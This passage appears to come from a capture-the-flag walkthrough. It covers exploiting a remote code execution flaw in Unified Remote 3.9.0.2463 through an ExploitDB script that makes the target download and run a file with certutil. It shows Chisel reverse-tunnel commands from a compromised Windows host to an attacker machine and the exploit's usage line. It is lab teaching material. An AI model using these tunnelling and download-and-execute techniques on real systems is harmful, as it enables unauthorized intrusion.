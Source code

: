There’s a [remote code execution exploit](https://www.exploit-db.com/exploits/49587) in Unified Remote 3.9.0.2463. Reading the script from ExploitDB, it looks like it connects to TCP 9512, and the uses takes advantage of the application’s ability to run generic windows programs. The script author seems to have understood the binary protocol the server uses to tell the target computer to download a file of HTTP using `certutil` and then run that file.

#### Tunnel

To access TCP 9512, I’ll need to tunnel through my existing shell. For that, I’ll use [Chisel](https://github.com/jpillora/chisel) ([my tutorial here](/cheatsheets/chisel)). I’ll upload the Windows binary using `curl`, and then start the server:

```

oxdf@hacky$ /opt/chisel/chisel_1.7.6_linux_amd64 server -p 8000 --reverse
2022/01/28 16:34:12 server: Reverse tunnelling enabled
2022/01/28 16:34:12 server: Fingerprint 81DUoPbmDjczPL9ZhJsU325vRwcHTwvWav70WALUU0g=
2022/01/28 16:34:12 server: Listening on http://0.0.0.0:8000

```

Now I’ll connect to that port with the client:

```

PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:9512:127.0.0.1:9512
2022/01/28 13:36:41 client: Connecting to ws://10.10.14.6:8000
2022/01/28 13:36:42 client: Connected (Latency 74.2142ms)

```

At the server, it shows the tunnel:

```

2022/01/28 16:36:00 server: session#1: tun: proxy#R:9512=>9512: Listening

```

This is another chance to remind everyone that you must use 127.0.0.1 with Chisel and Windows. By default, Windows will route `localhost` to `::1`, which doesn’t work is the service you are forwarding isn’t on IPv6.

#### Exploit Script Review

I’ll download [the exploit](https://www.exploit-db.com/exploits/49587) and take a look. It’s a legacy Python script. I can get it up to modern Python by replacing all the `.decode('hex')` with `unhexlify` (which I import from `binascii`).

The script takes in three arguments:

```

oxdf@hacky$ python3 unified_remote_rce.py 
Usage: python unified_remote_rce.py <target-ip> <local-http-ip> <payload-name>

```
